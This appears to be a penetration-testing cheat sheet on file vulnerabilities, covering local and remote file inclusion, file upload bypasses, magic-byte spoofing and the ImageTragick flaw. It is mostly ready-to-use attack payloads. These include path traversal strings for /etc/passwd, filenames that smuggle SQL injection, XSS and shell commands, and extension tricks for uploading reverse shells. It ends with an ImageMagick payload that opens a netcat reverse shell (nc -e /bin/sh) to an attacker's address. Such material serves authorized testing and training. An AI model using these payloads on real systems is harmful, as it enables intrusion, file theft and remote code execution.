 # File Vulnerabilities

## LFI

local file inclusion happens when it is possible to access files stored on the target's system by passing a relative path to a parameter of a request. The number of "up one level instructions" is irrelevant because once we reach the root level, the additional "go up" instructions will be ignored.

See [LFI List](file-upload/lfi-list.md) for a list of possible target files for tests

#### Payloads

```
#Linux
../../../../../../../../../../../../etc/passwd
#Windows
..\..\..\..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\..\..\..\boot.ini
```

## RFI

Remote file inclusion happens when an attacker is able to make a web server include and execute files hosted on a different server controlled by the attacker. For instance by making a parameter point to an url of a file such as a reverse shell written in php it is possible to make the server follow the url and execute the shell

See [PHP shells](file-upload/php-shells.md) for shells to be used in an attack. Keep in mind that these files MUST be stored as .txt files instead of their executable format (.php, .jsp, .asp). If you don't do thisthe malicious code will be executed on your local server instead of the remote one

#### Payloads

```
www.google.com    #expect to see html code as result
<your url>:<port> #start a listener on the port and see if you receive an HTTP request
```

## File upload functionality

### Filename payloads

```
../../../tmp/evil.png                 #test for LFI
sleep(10)-- -.jpg                     #test for SQLi
<svg onload=alert(document.domain)>   #test for stored XSS
; sleep 10;                           #test for RCE
```

### Evade file restrictions

Changing the content type header when trying to upload reverse shells can bypass simple files detection systems.

These strings are effective in evading file upload checks only if the server does not check the actual file signature but checks only the extension.

```php
file.png.php
file.png.Php5
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
flile.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg
```

### Magic bytes

To bypass file controls based on MIME type and file signature insert the following bytes sequences at the beginning of the file to change its type and edit file extension accordingly. Once the file is stored on the server you will have to find a way to edit it back in order to restore its origina behavior when opened

```php
python -c "print '<signature>'" > <file>
#hex signature example: \x4D\x5A
```

| File type                       | Mnemonic            | Signature                                    |
| ------------------------------- | ------------------- | -------------------------------------------- |
| DOS executable                  | "MZ"&#xD;           | 0x4D 0x5A&#xD;                               |
| PE32 executable                 | "MZ"...."PE.."&#xD; | 0x4D 0x5A ... 0x50 0x45 0x00 0x00&#xD;       |
| Mach-O Executable (32 bit)      | "FEEDFACE"&#xD;     | 0xFE 0xED 0xFA 0xCE&#xD;                     |
| Mach-O Executable (64 bit)&#xD; | "FEEDFACF"&#xD;     | 0xFE 0xED 0xFA 0xCF&#xD;                     |
| ELF Executable&#xD;             | ".ELF"&#xD;         | 0x7F 0x45 0x4C 0x46&#xD;                     |
| Zip Archive&#xD;                | "PK.."&#xD;         | 0x50 0x4B 0x03 0x04&#xD;                     |
| Rar Archive&#xD;                | "Rar!...."&#xD;     | 0x52 0x61 0x72 0x21 0x1A 0x07 0x01 0x00&#xD; |
| Ogg Container&#xD;              | "OggS"&#xD;         | 0x4F 0x67 0x67 0x53&#xD;                     |
| Matroska/EBML Container&#xD;    | N/A                 | 0x45 0x1A 0xA3 0xDF&#xD;                     |
| PNG Image&#xD;                  | ".PNG...."&#xD;     | 0x89 0x50 0x4E 0x47 0x0D 0x0A 0x1A 0x0A&#xD; |
| BMP Image&#xD;                  | "BM"&#xD;           | 0x42 0x4D&#xD;                               |
| GIF Image&#xD;                  | "GIF87a"&#xD;       | 0x47 0x49 0x46 0x38 0x37 0x61&#xD;           |
| GIF Image&#xD;                  | "GIF89a"&#xD;       | 0x47 0x49 0x46 0x38 0x39 0x61                |

## ImageTrick vulnerability

Save this code snippet in a text file and upload it to receive a reverse shell

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/image.jpg"|nc -e /bin/sh <IP> "<PORT>)'
pop graphic-context
```

